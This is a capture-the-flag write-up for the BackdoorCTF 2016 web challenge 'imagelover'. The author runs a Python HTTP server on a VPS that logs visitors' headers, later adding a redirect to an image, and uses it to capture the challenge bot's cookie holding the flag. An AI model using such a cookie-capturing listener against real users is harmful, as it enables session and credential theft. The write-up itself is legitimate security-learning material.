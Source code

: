```yaml
---
title: "BackdoorCTF 2016 - imagelover"
layout: post
date: 2016-05-30 4:21
tag:
- BackdoorCTF2016
- Web
- Backdoor
writeup: true
star: false
points: 70
category: Web
---
```


![Backdoor Logo](/assets/images/backdoorctf16/logo.png)

**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 70

#### Description:

>Find imagelover [here](http://hack.bckdr.in:6969/)

## Write-up

**The challenge was updated. Scroll down to see the updates solution**

When I went to the specified website it said:

>Imagelover loves viewing pictures of people. He has opened this website so that you can share your pics with him. Imagelover visits the image with his flag as a sign of gratitude.

There was a URL box to add our link to photos. So it said "Imagelover visits the image with his `flag`". The only way to do this would be to send a GET request to the website we enter and send the flag in the Headers. So I googled and found this script to print the Headers of anyone who sends a GET request to my VPS.

~~~python
import SimpleHTTPServer
import SocketServer
import logging

PORT = 8000

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
~~~

`**Update_begin**`

So now they don't give us the flag until we return them a `png`, `jpg` or a `gif`. So I decided to redirect them to an image. For this I made some chanegs in the `do_GET()` method. Here is the updated method.

~~~python
   def do_GET(self):
        logging.error(self.headers)
        self.send_response(301) # For a redirect we need to send a `301` response rather than `200`
        self.send_header('Location','link.to.an/image') # Add a link to an image in place of `link.to.an/image`
        self.end_headers()
~~~

`**Update_end**`

Basically I hosted my VPS with the script above and entered the URL in place of a photograph URL. Imagelover would visit it and I would get the flag from the Headers.

And as expeced as soon as I submitted my URL I got a GET request with the flag in the cookie.

**Go through other [writeups](../) for more such fun challenges.**

